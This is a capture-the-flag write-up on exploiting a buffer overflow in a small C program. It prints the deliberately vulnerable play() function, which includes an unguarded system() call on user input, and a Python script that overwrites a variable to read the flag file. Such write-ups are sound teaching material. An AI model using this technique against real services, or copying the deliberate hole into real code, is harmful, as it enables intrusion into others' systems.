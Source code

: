 Buffer Overflow Exploitation on a C Program
Introduction

![Banner Image](https://weplaywithfirehere.files.wordpress.com/2023/07/george.jpeg)



This write-up details the process of exploiting a buffer overflow vulnerability in a C program as part of a Capture The Flag (CTF) challenge. The challenge involved manipulating the value of a variable by overflowing a buffer in the program.
The Vulnerable Program

The C program provided for the challenge contained a function named play(). This function declared a buffer of size 8 bytes and two integer variables a and b. The function read 12 bytes of input into the 8-byte buffer, creating a buffer overflow vulnerability. Depending on the values of a and b, the function would perform different actions, including reading a file named "flag.0".

c code below:

int play() {

	int a;
	int b;
	char buffer[010];
	a = 0x41414141;
	b = 0x42424242;

	if (write(STDOUT_FILENO, "For a moment, nothing happened. Then, after a second or so, nothing continued to happen.\n> ", 91) < 0) {
		perror("write");
	}

	sleep(1);

    if (read(STDIN_FILENO, &buffer, 0xC) < 0) {
        perror("read");
    }
	
	if (a == 31337) {
		system(buffer);
	}

	else if (b == 42) {
		readfile("flag.0");
	}

	else if (b == 23) {
		readfile("vuln1.txt");
	}

	else {
		write(STDOUT_FILENO, "So long and thanks for all the fish.\n", 37);
	}

}

The Exploit

The goal of the challenge was to exploit the buffer overflow vulnerability to change the value of b to 42, causing the program to read the "flag.0" file.

To achieve this, a payload was constructed that consisted of 8 bytes to fill up the buffer, followed by 4 bytes to overwrite the value of b. The payload was sent to the program over a network connection.

Here's the Python script that was used to send the payload:

python

import struct
import socket

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('localhost', 1984))  # replace with the actual host and port

response = s.recv(1024)
print(response)

payload = b'A' * 8  # fill up the buffer
payload += struct.pack('<I', 42)  # overwrite b with 42 (little-endian)

s.send(payload)
response = s.recv(1024)
print(response)

Result

The script successfully exploited the buffer overflow vulnerability, causing the program to read the "flag.0" file and send the contents back over the network connection. The contents of the file were the flag for the CTF challenge: *REDACTED*.

Conclusion

This challenge demonstrated the dangers of buffer overflow vulnerabilities and the importance of proper input validation and buffer management in C programs.
